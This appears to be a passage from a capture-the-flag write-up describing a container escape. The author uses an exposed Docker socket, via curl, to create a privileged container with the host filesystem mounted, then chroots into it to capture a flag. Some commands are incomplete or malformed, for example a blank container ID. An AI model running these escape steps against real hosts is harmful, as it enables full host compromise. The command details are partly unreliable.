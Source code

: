Right here, I have spent a lot of time and even stayed up all night using resources from Google and ChatGPT. I am currently very weak in this area, so I may feel a bit lost and unclear from this point onward.
First, create a container for Docker and then you can access the file system here:

Get the available images
curl --unix-socket /var/run/docker.sock http://localhost/images/json

curl -X POST --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{
"Image": "php:8.1-cli",
"Cmd": ["/bin/sh"],
"Tty": true,
"HostConfig": {
"Privileged": true,
"Binds": ["/:/host"]
}
}' http://localhost/containers/create

Save id from previous script

curl -X POST --unix-socket /var/run/docker.sock http://localhost/containers//start

docker exec -it chroot /host /bin/bash

So we have the third flag 👍

<img width="1372" height="613" alt="image" src="https://github.com/user-attachments/assets/cb6ce8d0-36f9-4466-a0ea-c63409c516e8" />
